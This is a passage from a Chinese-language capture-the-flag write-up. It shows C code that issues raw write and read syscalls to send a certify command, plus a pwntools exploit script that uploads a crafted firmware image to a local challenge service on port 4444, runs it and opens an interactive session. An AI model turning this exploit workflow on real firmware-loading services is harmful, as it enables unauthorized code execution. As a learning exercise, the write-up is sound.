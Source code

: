 ```C
    SfmCertifyObject certify_object = {0};
    my_memset(&certify_object, 0, sizeof(SfmCertifyObject));
    certify_object.cmd.command_code = 6;
    certify_object.object_index = 0;
    // client_fd.send(cmd)
    my_write(fd, &certify_object, sizeof(certify_object));  

    while(1){};
    // p.interactive()
    return 0;
}

void my_write(int fd, void* message, int length) {
    // ssize_t ret;
    asm("syscall"
        : // "=a" (ret)
        : "a"(__NR_write), "D"(fd), "S"(message), "d"(length)
        : "memory", "cc", "r11", "cx"
    );
    // return ret;
}

ssize_t my_read(int fd, void* buffer, size_t count) {
    ssize_t result;
    asm("syscall"
        : "=a"(result)
        : "a"(__NR_read), "D"(fd), "S"(buffer), "d"(count)
        : "rcx", "r11", "memory"
    );
    return result;
}

#include "firmware.c"
```

这里没给出的`firemware.c`为使用了上述算法压缩后的`trusted_firmware`，然后存放在了`blob`变量中。

最后，我们将程序封装好，然后完成最后的exp编写

```python
from pwn import *
import binascii

fd = open("firm.bin",'rb')
content = fd.read()
content = content.ljust(0x2000,b'\x00')
fd.close()

p = remote("127.0.0.1",4444)
p.recvuntil("> ")
p.sendline("upload")

image = binascii.hexlify(content)
print(hex(len(image)))
p.sendline(image)

p.recvuntil("> ")
p.sendline("run")

p.interactive()
```
